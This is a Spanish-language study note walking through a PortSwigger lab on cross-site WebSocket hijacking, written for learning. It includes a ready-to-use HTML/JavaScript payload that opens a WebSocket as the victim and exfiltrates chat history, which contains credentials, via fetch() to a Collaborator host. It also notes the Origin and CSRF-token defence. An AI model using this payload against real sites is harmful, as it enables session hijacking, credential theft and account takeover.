

---
aliases:
  - WS 003 - CSWSH
  - cross-site websocket hijacking
tags:
  - vuln/websocket
  - example
  - portswigger
---

# 003 — Cross-Site WebSocket Hijacking (CSWSH)

> Lab: [Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) · **Practitioner** · Teoría → [[vulnerabilities/012-websockets/labs/README|labs]] · [[vulnerabilities/012-websockets/websocket|entry point]] · primo del [[vulnerabilities/003-csrf/csrf|CSRF]]

## Qué muestra
El handshake de `/chat` **no lleva CSRF token** y la sesión va en **cookie** (viaja sola cross-site). Tu página abre un WS a la víctima **en su contexto**, pide el historial y lo **exfiltra**. Es un "CSRF que además **lee** la respuesta".

## Por qué funciona
- El handshake **no valida `Origin`** ni exige CSRF token → cualquier sitio puede iniciarlo.
- La **cookie de sesión** se manda automáticamente → el WS se abre **como la víctima**.
- A diferencia del CSRF clásico (ciego), acá **leés** lo que el server responde (`onmessage`).

## Diagrama



## Cómo explotarlo (paso a paso)
1. Confirmá que el handshake de `/chat` **no lleva CSRF token** y que la sesión va en **cookie**.
2. En el **exploit server** serví esta página (reemplazá `LAB-ID` y `COLLAB`):
   ```html
   <script>
   const ws = new WebSocket('wss://LAB-ID.web-security-academy.net/chat');
   ws.onopen = () => ws.send('READY');                 // pide el historial
   ws.onmessage = (e) => fetch('https://COLLAB/?' + encodeURIComponent(e.data));  // exfil
   </script>
   ```
3. Probalo contra **tu** chat → mirá las interacciones en **Collaborator**.
4. **Deliver to victim** → en Collaborator llega el historial de la víctima → **trae user + pass** → logueate como ella.

## Verificación
- En Collaborator ves peticiones con el historial de chat de la víctima; con esas credenciales entrás a su cuenta.

## Detalles que se pasan por alto
- **`READY`** es el mensaje que este chat espera para volcar el historial; en otro lab puede ser otro trigger.
- Si el server **validara `Origin`** o metiera CSRF token en el handshake, CSWSH se cae → esa es la defensa.
- PoC ya listo para editar → `vulnerabilities/012-websockets/websocket.md` (incluye la variante encadenada con XSS en el `username`).

→ Volver: [[vulnerabilities/012-websockets/labs/README|labs de WebSocket]]
